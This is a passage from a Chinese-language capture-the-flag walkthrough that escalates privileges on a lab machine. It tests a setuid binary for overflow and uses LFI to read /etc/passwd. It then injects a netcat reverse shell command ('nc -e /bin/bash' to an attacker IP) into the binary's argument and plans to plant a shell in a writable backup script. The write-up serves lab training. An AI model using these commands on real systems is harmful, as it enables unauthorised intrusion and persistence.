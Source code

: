 可以看到 setuid 位启用为 pinky... 执行后都是正确输出... 应该存在缓冲区溢出... 我试试

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CPt7TsWPgY8DNpSkakEo7M0LryU7mTBmRNniaKjgXJem0t4zVLXqonsg/640?wx_fmt=png)

```
./qsub $(python -c "print 'A'*100")
```

果然存在...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CpAIiaiahMZMelTfSe7KACiakhllj7Yav6huKkNKk9WMMMtejuzVN4Jibxg/640?wx_fmt=png)

gdb 还不可用...

这边发现它存在 www-data 组权限中... 我需要读取 qsub 文件的权限...

这边回到 web 页面查看下...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CUMKKYpNaznicJFmKBKZVj4CXib2JUYa8rsrX4AKtUWI3DwMQickBcrgjw/640?wx_fmt=png)

查看 / etc/passwd 确实存在 LFI 后...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7C8icencQWad5XUHGMJPp5uyBaFZYHfA13LudZ4k12nibZoLMtf4nKzCZg/640?wx_fmt=png)

发现了可读字符串中是 TERM... 这是环境变量...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CqOpXkh82KFGDlvlKmkJEEXb1RfTRNabKHRJydbUQiaz8HHiaHjFny99Q/640?wx_fmt=png)

我输入 xterm-256color 后...Welcome to Question Submit!，这边直接可以输入 shell...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7Cxp9r0kUuHbxgmuaPbVlicwzh0yClhWISwcfH4dn0AysaccMicJrneXmg/640?wx_fmt=png)

```
/bin/echo %s >> /home/pinky/messages/stefano_msg.txt
./qsub '$(nc -e /bin/bash 192.168.182.149 4444)'
```

利用 / bin / 输入... 然后将 shell 植入里面即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CtzdqCoibmHqLJ9cakibDGdOt2jrSOqxHEZnRO6HNFbkgmSHKGYus8guA/640?wx_fmt=png)

成功进入 pinky 用户...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CI2UXGW0eZq6a87h5I46LMpPNVwn1pLumibeyVEIaU1X17ictwHtUQjlA/640?wx_fmt=png)

每个地方都看看.... 没啥信息.... 按照套路应该有一个文件可以写入 shell 的... 继续找

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7CjWkXBzFuV2mVbyib4SJibwejogWGnUQxzxDOCCXSvuTSrRn0ZffNJO9A/640?wx_fmt=png)

发现. sh 文件... 想查看发现组的权限不是 pinky，用 newgrp 来切换当前用户组即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7C3qTQmvKZQ33gyvicvRPyDTmic9M2ficcfFunI8DbAJObhiaNpkntE6mibZw/640?wx_fmt=png)

这边查看后，目前我具有写访问权... 它应该是个备份脚本... 放在这不起眼的地方，我先尝试写入 shell 看看..

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNq0snS4aGhbkfluswTSh7C86D9ceqiaMvd7vGFVAljDHQ0JEafw5GwnibYDzIsmiagBlqx0ibr9C4eiag/640?wx_fmt=png)
